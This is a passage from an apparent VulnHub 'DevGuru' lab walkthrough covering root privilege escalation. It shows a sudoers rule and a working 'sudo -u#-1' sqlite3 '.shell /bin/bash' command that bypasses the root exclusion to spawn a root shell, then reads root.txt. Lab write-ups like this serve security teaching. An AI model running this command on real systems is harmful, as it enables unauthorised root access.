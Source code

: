 ```shell
(ALL, !root) NOPASSWD: /usr/bin/sqlite3
```

 - <https://www.exploit-db.com/exploits/47502>
 - <https://gtfobins.github.io/gtfobins/sqlite3/#sudo>

```shell
sudo -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/bash'
```

[![](/assets/images/vulnhub/devguru/a08026ef.png)](/assets/images/vulnhub/devguru/a08026ef.png)

## short version

```shell
id; hostname; cat msg.txt; cat root.txt;
```

[![](/assets/images/vulnhub/devguru/f58a3146.png)](/assets/images/vulnhub/devguru/f58a3146.png)
